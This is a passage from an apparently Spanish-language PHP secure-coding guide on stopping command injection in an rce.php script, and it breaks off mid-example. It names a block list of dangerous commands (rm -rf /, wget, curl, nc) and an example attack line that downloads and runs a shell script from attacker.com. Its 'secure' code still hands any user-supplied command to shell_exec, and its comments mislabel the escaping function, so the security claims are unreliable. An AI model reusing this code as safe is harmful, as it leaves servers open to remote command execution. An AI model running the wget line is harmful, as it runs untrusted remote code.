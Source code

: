 _Beneficios:_

- Lista blanca de comandos permite solo los necesarios (ls, whoami, pwd).

- Evita ejecución de comandos peligrosos (rm -rf /, wget, curl, nc).

- Evita XSS con htmlspecialchars(), protegiendo la salida de comandos.

**Ejecutar Comandos con Escapes Seguros**
---

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

~~~
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
~~~

- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

> Si contienen caracteres especiales, exec no va a realizar ninguna consulta, por lo que comprobamos y mostramos aviso de error.
>
> Si queremos que sólo se utilicen comandos simples sin argumentos y sin concatenar, podemos añadir un paso de seguridad con escapeshellarg(). Cambiamos la línea:

~~~
    $cmd_safe = escapeshellarg($cmd);
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

Ejemplo: Si alguien intenta enviar:
